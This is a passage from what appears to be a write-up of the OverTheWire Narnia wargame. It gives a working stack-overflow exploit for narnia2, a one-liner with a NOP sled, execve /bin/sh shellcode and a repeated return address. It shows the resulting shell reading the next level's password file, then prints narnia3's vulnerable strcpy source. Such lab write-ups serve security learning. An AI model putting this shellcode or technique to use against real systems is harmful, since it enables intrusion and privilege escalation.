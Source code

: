 
    return 0;
}
{% endhighlight %}
This is a classic buffer overflow where we also have to inject our shellcode. I will show you how i debug in gdb in the more advaneced challenges. However in this case I solved it by injecting a 100 bytes nop sled, the shellcode and 50 times the return address:
```
narnia2@narnia:/narnia$ ./narnia2 $(python -c "print('\x90'*100+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'+'\x32\xd5\xff\xff'*50)")
$
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
**********
```
The only problem here was to guess the right return address, but with a nop sled it was not far away from the one seen in gdb

# *Narnia3*
Source again!
{% highlight c %}
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
{% endhighlight %}
